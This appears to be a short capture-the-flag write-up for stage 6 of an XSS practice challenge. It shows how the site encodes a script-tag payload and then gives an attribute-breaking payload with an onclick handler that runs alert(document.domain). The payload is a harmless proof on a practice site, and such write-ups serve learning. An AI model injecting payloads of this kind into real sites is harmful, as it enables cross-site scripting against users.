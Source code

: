 # **XSS Challenges Stage 6**

First, insert the payload of Stage 4 again.

We get the feedback like following.
```
<input type="text" name="p1" size="50" value=""&gt;&lt;script&gt;alert(document.domain);&lt;/script&gt;&lt;a style="">
```
Except symbol: `"` , they all be HTML coded.

It seems that we can only insert some attribute like `onchange` , `onclick` or `onfocus`, etc.

Use the eazier one to trigger, of course, it's on your call.

`" onclick="alert(document.domain)`

![](https://i.imgur.com/MlK0KJn.png)

